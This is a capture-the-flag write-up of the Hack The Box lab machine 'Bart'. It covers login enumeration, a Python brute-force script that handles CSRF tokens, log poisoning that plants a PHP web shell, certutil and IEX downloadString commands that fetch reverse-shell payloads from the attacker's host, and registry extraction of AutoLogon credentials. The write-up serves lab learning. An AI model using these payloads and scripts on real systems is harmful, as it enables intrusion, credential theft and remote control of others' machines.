- Machine : https://app.hackthebox.com/machines/Bart
- Reference : https://0xdf.gitlab.io/2018/07/15/htb-bart.html
- Solved : 2025.3.6. (Thu) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Identified `http(80)` running on Microsoft IIS 10.0.
    - **Virtual Hosts**: Found `bart.htb` and `forum.bart.htb` through HTTP redirects.
    - **Web Content Discovery**:
        - `cewl` used to generate a wordlist from `forum.bart.htb`.
        - `gobuster` identified `/forum/` and `/monitor/`.
        
2. **Web Exploitation**
    - **Login Enumeration**:
        - `monitor.bart.htb` hosted **PHP Server Monitor v3.2.1**.
        - Username enumeration possible via error messages.
        - Found valid user `harvey`, successfully guessed password `potter`.
    - **Internal Exposure**:
        - Gained access to an internal chat system on `internal-01.bart.htb`.
        - Identified **php-ajax-simple-chat** with an accessible `register.php` endpoint.
        
3. **Initial Foothold**
    - **Log Poisoning to Remote Code Execution**:
        - Discovered `log.php` writing user-agent values to a log file.
        - Used log poisoning to inject a PHP web shell.
        - Executed `cmd.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.3:8000/rshell_9000.exe` to upload a reverse shell.
        - Successfully executed `rshell_9000.exe` and obtained a reverse shell as `nt authority\iusr`.
        
4. **Privilege Escalation**
    - **Credential Disclosure**:
        - Extracted **AutoLogon credentials** from registry (`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`).
        - **Username**: `Administrator`, **Password**: `3130438f31186fbaf962f407711faddb`.
    - **Administrator Shell**:
        - Used `Invoke-Command` with `-Credential` to execute a reverse shell as `Administrator`.
        - Successfully connected back and confirmed privileges as `nt authority\Administrator`.

### Key Techniques:

- **Enumeration**: Used `nmap`, `cewl`, `gobuster`, and manual web analysis to identify vulnerabilities.
- **Login Exploitation**: Username enumeration via login error messages, password guessing.
- **Log Poisoning**: Injected PHP code into logs to achieve RCE.
- **Privilege Escalation**: Extracted stored credentials from the Windows registry for `Administrator` access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.81
Performing quick port scan on 10.10.10.81...
Found open ports: 80
Performing detailed scan on 10.10.10.81...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-05 05:27 MST
Nmap scan report for 10.10.10.81
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Did not follow redirect to http://forum.bart.htb/
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
```

Only a single port is open : http(80)
It seems that I need to add `bart.htb`, and `forum.bart.htb` on `/etc/hosts`.


Although the page shows 3 employees, there is one more commented out on the source code.

I made a wordlist using `cewl` tool.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ cewl http://forum.bart.htb -d 5 > bart.dic
```

```javascript
<!-- <div class="owl-item" style="width: 380px;"><div class="team-item">
<div class="team-inner">
<div class="pop-overlay">
<div class="team-pop">
<div class="team-info">
<div class="name">Harvey Potter</div>
<div class="pos">Developer@BART</div>
<ul class="team-social">
	<li><a class="facebook" href="#" target="_blank"><i class="fa">F</i></a></li>
	<li><a class="twitter" href="#" target="_blank"><i class="fa">T</i></a></li>
	<li><a class="google" href="#" target="_blank"><i class="fa">G</i></a></li>
	<li><a class="mail" href="mailto:h.potter@bart.htb" target="_blank"><i class="fa">M</i></a></li>
</ul>
</div>
</div>
</div>
<div class="avatar">

</div>
</div>
	<div class="team-content">
		<div class="name">
			Harvey Potter
		</div>
		<div class="pos">Developer@BART</div>
	</div>
</div>
</div>-->
<!-- Adding other employees breaks the CSS, I will fix it later. -->
```

I additionally fuzzed subpages using `gobuster`.
The server returns the same page with the same image even if the page doesn't exist.


So I excluded it based on its length.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ curl -s -I http://bart.htb/test | grep "Content-Length:" 
Content-Length: 158607


┌──(kali㉿kali)-[~/htb/bart]
└─$ gobuster dir -u http://bart.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-length 158607
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bart.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          158607
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/forum                (Status: 301) [Size: 145] [--> http://bart.htb/forum/]
/monitor              (Status: 301) [Size: 147] [--> http://bart.htb/monitor/]
```

The first one `/forum` is redirected to the same page as `forum.bart.htb`.
Maybe the second one `/monitor` would be the same.


# Shell as `iusr`

### Login guess



It reveals the application name and version : `PHP Server Monitor v3.2.1`
I googled to find if there's any vulnerability for this version, but couldn't find any critical one.



Since it's responding with "The provided username could not be found" message, I think I can utilize it to find existing username.



I tried with found employee names, and `harvey` worked.



I captured a login request to brute force it. However, this seemed to be more difficult than I expected since it had CSRF token.



Instead, I tested with `harvey`'s last name `potter` and it worked.
Just in case for the later use of login brute force under CSRF login form, here's the python code.

```python
#!/usr/bin/env python3

import re
import requests
import sys
from multiprocessing import Pool


MAX_PROC = 50
url = "http://monitor.bart.htb/"
username = "harvey"

#<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

def usage():
    print("{} [wordlist]".format(sys.argv[0]))
    print("  wordlist should be one word per line]")
    sys.exit(1)

def check_password(password):

    # get csrf token and PHPSESSID
    r = requests.get(url)
    csrf = re.search(csrf_pattern, r.text).group(1)
    PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

    # try login:
    data = {"csrf": csrf,
            "user_name": username,
            "user_password": password,
            "action": "login"}
    proxies = {'http': 'http://127.0.0.1:8080'}
    headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
    r = requests.post(url, data=data, proxies=proxies, headers=headers)

    if '<p>The information is incorrect.</p>' in r.text:
        return password, False
    else:
        return password, True


def main(wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r', encoding='latin-1') as f:
       words = f.read().rstrip().replace('\r','').split('\n')

    words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]

    pool = Pool(processes=nprocs)

    i = 0
    print_status(0, len(words))
    for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
        if status:
            sys.stdout.write("\n[+] Found password: {} \n".format(password))
            pool.terminate()
            sys.exit(0)
        else:
            i += 1
            print_status(i, len(words))

    print("\n\nPassword not found\n")

def print_status(i, l, max=30):
    sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i*max)//l), " " * (max - ((i*max)//l)), i, l))

if __name__ == '__main__':
    if len(sys.argv) != 2:
        usage()
    main(sys.argv[1])
```

After sign-in, I can see the internal page contains chat.



Let's click the "Internal Chat".



There's another domain exposed here : `internal-01.bart.htb`

### php-ajax-simple-chat



Another login page loaded, but it seems to be the one for the employees only?

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ gobuster dir -u http://internal-01.bart.htb/simple_chat -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php --exclude-length 75
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal-01.bart.htb/simple_chat
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          75
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 0] [--> ../]
/login.php            (Status: 302) [Size: 0] [--> login_form.php]
/register.php         (Status: 302) [Size: 0] [--> register_form.php]
/media                (Status: 301) [Size: 169] [--> http://internal-01.bart.htb/simple_chat/media/]
/chat.php             (Status: 302) [Size: 4] [--> simple_chat/login_form.php]
/css                  (Status: 301) [Size: 167] [--> http://internal-01.bart.htb/simple_chat/css/]
/includes             (Status: 301) [Size: 172] [--> http://internal-01.bart.htb/simple_chat/includes/]
/Index.php            (Status: 302) [Size: 0] [--> ../]
/Login.php            (Status: 302) [Size: 0] [--> login_form.php]
/js                   (Status: 301) [Size: 166] [--> http://internal-01.bart.htb/simple_chat/js/] 
/logout.php           (Status: 302) [Size: 0] [--> ../]
/Media                (Status: 301) [Size: 169] [--> http://internal-01.bart.htb/simple_chat/Media/] 
```

I ran `gobuster` to find what sub pages exist.
Among the findings, I thought `register.php` looked interesting.

I googled more, and found out that there is a open source on [github](https://github.com/magkopian/php-ajax-simple-chat) which looks similar with our target.

```php
<SNIP>

//check if username is provided
if (!isset($_POST['uname']) || empty($_POST['uname'])) {
	$errors['uname'] = 'The Username is required';
} else {
	//validate username
	if (($uname = validate_username($_POST['uname'])) === false) {
		$errors['uname'] = 'The Username is invalid';
	}
}

//check if password is provided
if (!isset($_POST['passwd']) || empty($_POST['passwd'])) {
	$errors['passwd'] = 'The Password is required';
} else {
	//validate password
	
	if (($passwd = validate_password($_POST['passwd'])) === false) {
		$errors['passwd'] = 'The Password must be at least 8 characters';
	}
}

<SNIP>
```

### Register new account

Given the php source code, I think I can send POST request to `register.php` with `uname` and `passwd` to create a new account.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=bokchee&passwd=bokcheeee"
```

With the created account, I was able to login.



I analyzed the chat UI, the chat function itself doesn't have any specialty.
However, "Log" drew my attention.
That code doesn't exist on the public repository.

### File write vulnerability

```html
<div id="log_link">
				<script>
					function saveChat() {
						// create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done"
					var xhr = new XMLHttpRequest();
					xhr.onreadystatechange = function() {
    					if (xhr.readyState == XMLHttpRequest.DONE) {
        					alert(xhr.responseText);
    					}
					}
					xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
					xhr.send(null);
					alert("Done");
					}
				</script>
				<a href="#" onclick="saveChat()">Log</a>
</div>
```

It seems that `http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey` is called when the "Log" button is clicked.

I checked `http://internal-01.bart.htb/log/log.txt` to check if the log file is created, and it was.



The log looks similar with usual `access.log`.

I modified `user-agent` of the "Log" request using burpsuite.

```
GET /log/log.php?filename=log.txt&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: This is a test!!!!!!!!
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://internal-01.bart.htb/
Cookie: PHPSESSID=kogfovf20p6gppd3asbc67ck0i
Priority: u=0
```



Then I can see the modified part has been added.
Using this, I can do log poisoning.

I can write a new file instead of `log.txt` by editing the `filename` parameter, and put php code on `User-Agent` field.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ python                          
Python 3.12.7 (main, Nov  8 2024, 17:55:36) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> headers={'User-Agent':'phpinfo: <?php phpinfo(); ?>'}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', headers=headers)
>>> r.text
'1'
```



Then the "phpinfo" page is loaded which means that I can run any php code.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ python                          
Python 3.12.7 (main, Nov  8 2024, 17:55:36) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> headers={'User-Agent':'rce: <?php system($_REQUEST["cmd"]); ?>'}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=cmd.php&username=harvey', headers=headers)
>>> r.text
'1'
```



It worked! Let's open a reverse shell using this and reverse shell payload.

### Open reverse shell

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9000 -f exe -o rshell_9000.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rshell_9000.exe
                                                                                             
┌──(kali㉿kali)-[~/htb/bart]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.81 - - [05/Mar/2025 14:24:09] "GET /rshell_9000.exe HTTP/1.1" 200 -

```

Upload the payload using `certutil` :

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ curl http://internal-01.bart.htb/log/cmd.php?cmd=certutil.exe%20-urlcache%20-split%20-f%20http://10.10.14.3:8000/rshell_9000.exe
```

Run the uploaded payload :

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ curl http://internal-01.bart.htb/log/cmd.php?cmd=.\rshell_9000.exe
```

Then I can open a shell as `iusr`.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.81] 50649
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\internal-01\log>whoami
whoami
nt authority\iusr
```


# Shell as `Administrator`

### Enumeration

I ran `winPEAS` to enumerate the target.

```yaml
����������͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  DESKTOP-7I3S68E
    DefaultUserName               :  Administrator
    DefaultPassword               :  3130438f31186fbaf962f407711faddb
```

I can find the same by retrieving registry.

```bash
C:\inetpub\wwwroot\internal-01\log>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
    DefaultUserName    REG_SZ    Administrator
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x13d3a36e
    ShutdownFlags    REG_DWORD    0x80000033
    AutoAdminLogon    REG_SZ    1
    DisableLockWorkstation    REG_DWORD    0x0
    EnableFirstLogonAnimation    REG_DWORD    0x1
    AutoLogonSID    REG_SZ    S-1-5-21-988671444-1802818203-1364644418-500
    LastUsedUsername    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\Currentversion\Winlogon\VolatileUserMgrKey
```

With the saved credential, let's open a new reverse shell.

```powershell
$username = "BART\Administrator"

$password = "3130438f31186fbaf962f407711faddb"

$secstr = New-Object -TypeName System.Security.SecureString

$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}

$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr

Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/rshell_9001.ps1') } -Credential $cred -Computer localhost
```

Then I can open a shell as `Administrator`.

```bash
┌──(kali㉿kali)-[~/htb/bart]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.81] 50649
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\internal-01\log>whoami
whoami
nt authority\Administrator
```